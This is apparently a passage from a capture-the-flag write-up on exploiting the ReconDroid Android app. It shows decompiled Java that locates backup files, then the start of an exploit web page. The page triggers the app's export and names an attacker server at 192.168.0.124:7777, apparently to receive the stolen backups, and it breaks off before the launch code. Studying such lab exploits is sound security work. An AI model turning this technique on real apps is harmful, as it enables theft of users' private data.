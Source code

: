 ```java
                }
            }
        }
        if (file != null) {
            return file.getAbsolutePath();
        }
        return null;
    } catch (Exception e) {
        e.printStackTrace();
        return null;
    }
}

/* JADX INFO: Access modifiers changed from: private */
public static final boolean getLatestBackupFile$lambda$0(File file) {
    String name = file.getName();
    Intrinsics.checkNotNullExpressionValue(name, "getName(...)");
    if (StringsKt.startsWith$default(name, "recondroid_backup_", false, 2, (Object) null)) {
        String name2 = file.getName();
        Intrinsics.checkNotNullExpressionValue(name2, "getName(...)");
        if (StringsKt.endsWith$default(name2, ".txt", false, 2, (Object) null)) {
            return true;
        }
    }
    return false;
}
```

Let's create the **exploit**!
We can carry out *this attack more stealthily if we create a mobile application*, but since the challenge *asks us to create a web page*, the ReconDroid application will open anyway.
The **`index.html`** code:
```HTML
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>ReconDroid Export Trigger</title>
<style>
  body{background:#000;color:#e0e0e0;font-family:monospace;text-align:center;margin-top:8vh}
  .btn{padding:12px 28px;font-size:18px;border:none;border-radius:6px;
       background:#ff0080;color:#fff;cursor:pointer;transition:.2s}
  .btn:hover{background:#d6006b}
  .loading{display:none;margin-top:20px;font-size:15px}
  #status{margin-top:24px;font-size:13px}
</style>
</head>
<body>

<button class="btn" onclick="startChallenge()">Trigger Export</button>
<div class="loading">Launching intent...</div>
<div id="status"></div>

<script>
  const SERVER_HOST = "192.168.0.124";
  const SERVER_PORT = "7777";

  function startChallenge() {
    const btn     = document.querySelector('.btn');
    const loading = document.querySelector('.loading');
    const status  = document.getElementById('status');

    btn.style.display = 'none';
    loading.style.display = 'block';
```